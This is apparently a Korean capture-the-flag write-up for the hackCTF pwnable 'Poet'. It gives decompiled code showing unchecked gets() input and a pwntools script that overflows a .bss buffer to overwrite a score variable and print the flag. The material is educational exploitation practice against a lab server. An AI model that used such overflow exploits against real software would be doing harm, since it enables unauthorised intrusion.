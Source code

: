 ```yaml
---
layout: post
title:  "[hackCTF]Poet"
date:   2020-02-18
---
```


hackCTF pwnable 13번째 문제

![favicon](https://drive.google.com/uc?id=1EPkDaLZatWWYaPyJ3wVlOrAu-eubvG9c)

## ida - main
```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  setvbuf(_ bss_start, 0LL, 2, 0LL);
  puts(s);
  while ( 1 )
  {
    get_poem();
    get_author();
    rate_poem();
    if ( score == 1000000 )
      break;
    puts(asc_400D78); "음.. (중략) 다시 시도해 주세요!" 출력
  }
  reward();
}
```

## ida - get_author
```c
__int64 get_author()
{
  printf(&byte_400C38); // "이 시의 저자는 누구입니까?" 출력
  return gets(&author);
}
```

## ida - get_poem
```c
__int64 get_poem()
{
  __ int64 result; // rax

  printf("Enter :\n> ");
  result = gets(poem);
  score = 0;
  return result;
}
```

## ida - rate_poem
```c
int rate_poem()
{
  char dest; // [rsp+0h] [rbp-410h]
  char * s1; // [rsp+408h] [rbp-8h]

  strcpy(&dest, poem);
  for ( s1 = strtok(&dest, " \n"); s1; s1 = strtok(0LL, " \n") )
  { // 시를 행 단위로 자름
    if ( !strcmp(s1, "ESPR")
      || !strcmp(s1, "eat")
      || !strcmp(s1, "sleep")
      || !strcmp(s1, "pwn")
      || !strcmp(s1, "repeat")
      || !strcmp(s1, "CTF")
      || !strcmp(s1, "capture")
      || !strcmp(s1, "flag") )
    {
      score += 100; // 위의 단어 중 하나라도 들어가면 +100
    }
  }
  return printf(asc_400BC0, poem, (unsigned int)score);
}
```

## ida - reward
```c
void __noreturn reward()
{
  char s; // [rsp+0h] [rbp-90h]
  FILE * stream; // [rsp+88h] [rbp-8h]

  stream = fopen("./flag.txt", "r");
  fgets(&s, 128, stream);
  printf(format, &author, &s); // flag 출력
  exit(0);
}
```

처음엔 get_poem이나 get_author, rate_poem 함수의 ret을 덮어서 문제를 해결하려 했다. 하지만 poem이나 author은 .bss 영역에 존재하므로 ret을 덮을 수 없었다. 대신 score의 값을 1000000로 변조하고자 했다.

author는 .bss:6024A0에 위치하고 score는 .bss:6024E0에 위치한다. get_author함수에서 author을 입력 받을 때 score 값까지 덮으면 될 것 같다. 주의해야 할 점은 main에서 score과 비교하는  1000000은 int형이므로 payload를 작성할 때 1000000에 해당하는 문자열로 변환해야 한다.

## exploit.py
```python
#!/usr/bin/python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3012)

payload = "A"*(0x6024E0-0x6024A0) + p32(0xF4240) # 1000000 = 0xF4240

p.recvuntil("> ")

p.sendline("asdf")

p.recvuntil("> ")

p.sendline(payload)

p.interactive()
```

## 결과
![1301](https://drive.google.com/uc?id=1N2P6ySBqL7V_xx4a-1eJ5y1TBQcsuFUX)
